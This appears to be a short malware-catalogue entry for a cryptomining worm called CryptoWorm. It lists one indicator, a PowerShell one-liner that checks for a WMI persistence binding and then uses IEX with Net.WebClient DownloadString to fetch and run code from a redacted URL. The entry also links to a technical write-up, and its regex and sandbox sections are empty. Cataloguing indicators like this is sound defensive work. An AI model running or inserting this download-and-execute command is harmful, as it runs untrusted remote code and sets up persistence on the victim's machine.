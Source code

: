 ## CryptoWorm


#### Commands
---

* Powershell.exe

1.
```
"if(!([string](Get-WMIobject -Namespace root\Subscription -Class __FilterToConsumerBinding )).contains('SCM Event Filter')) {IEX(New-Object Net.WebClient).DownloadString('[URL]')}"
```

#### Regular Expressions
---

``
``

#### Resources
---

Technical write-ups:
* https://securityaffairs.co/wordpress/63488/malware/advanced-memory-cryptoworm.html

Sandbox reports:
* 

Notes:



 
